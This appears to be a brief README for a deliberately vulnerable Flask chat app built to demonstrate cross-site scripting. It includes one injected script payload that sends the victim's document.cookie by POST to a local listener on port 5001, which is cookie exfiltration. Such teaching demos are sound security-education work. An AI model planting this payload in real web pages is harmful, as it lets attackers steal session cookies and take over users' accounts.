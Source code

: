 Chat WebApp with Flask

Building an vulnerable chat web app to demostrate XSS attacks.


Attacker's injection: <script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>
